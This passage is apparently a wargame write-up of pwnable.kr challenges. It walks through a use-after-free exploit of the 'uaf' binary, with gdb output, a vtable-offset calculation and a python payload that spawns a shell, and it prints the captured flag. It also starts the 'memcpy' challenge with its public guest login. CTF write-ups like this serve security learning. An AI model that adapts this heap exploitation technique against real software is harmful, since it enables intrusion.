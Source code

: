 * To write on the previous freed blocks, we need to malloc the new block with same size, and due to the heap's maintain mechanism, it'll give us the latest freed block which has the same size
  * According to gdb, the size is 0x18 = 24<br>
    ```sh
    => 0x400f00 <main+60>:  call   0x400d90 <_Znwm@plt>
       0x400f05 <main+65>:  mov    rbx,rax
       0x400f08 <main+68>:  mov    edx,0x19
       0x400f0d <main+73>:  mov    rsi,r12
       0x400f10 <main+76>:  mov    rdi,rbx
    Guessed arguments:
    arg[0]: 0x18
    ```
* The free option first delete object m and then object w, however, the use option will call m->introduce() first. Thus we need to call malloc twice to get the block of object m
* To make Man::introduce points to give_shell, we need to make the address of vfptr become original address - 0x8
  * 0x401570 - 0x8 = 0x401568
```sh
$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'" > /tmp/payload
$ ./uaf 24 /tmp/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
```
### Flag
```yay_f1ag_aft3r_pwning```
### Reference
* https://eternalsakura13.com/2018/02/13/uaf/

## memcpy
### Description
> Are you tired of hacking?, take some rest here.  
> Just help me out with my small experiment regarding memcpy performance.  
> after that, flag is yours.
> 
> http://pwnable.kr/bin/memcpy.c
> 
> ssh memcpy@pwnable.kr -p2222 (pw:guest)
> 
* compiled in linux with : ```gcc -o memcpy memcpy.c -m32 -lm```
* ```/usr/include/stdio.h:27:10: fatal error: bits/libc-header-start.h: No such file or directory``` can be solved by [```sudo apt-get install gcc-multilib```](https://askubuntu.com/questions/91909/trouble-compiling-a-32-bit-binary-on-a-64-bit-machine)
### Overview
* Code review
  * main
```